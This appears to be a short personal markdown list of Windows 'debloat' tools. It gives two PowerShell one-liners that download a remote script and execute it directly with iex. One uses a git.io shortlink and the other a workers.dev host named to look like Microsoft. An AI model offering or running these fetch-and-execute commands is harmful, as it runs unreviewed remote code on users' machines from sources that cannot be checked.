 # Links

## Debloat Windows 
> [Chris titus Tech Link](https://www.christitus.com/debloat-windows-10-2020/) 😄
```asp.net
iex ((New-Object System.Net.WebClient).DownloadString('https://git.io/JJ8R4'))
```


> [Windows Toolbox](https://github.com/windowtoolbox/powershell-windows-toolbox) ✔️
```asp.net 
iex((New-Object System.Net.WebClient).DownloadString('https://ps.microsoft-toolbox.workers.dev'))
```



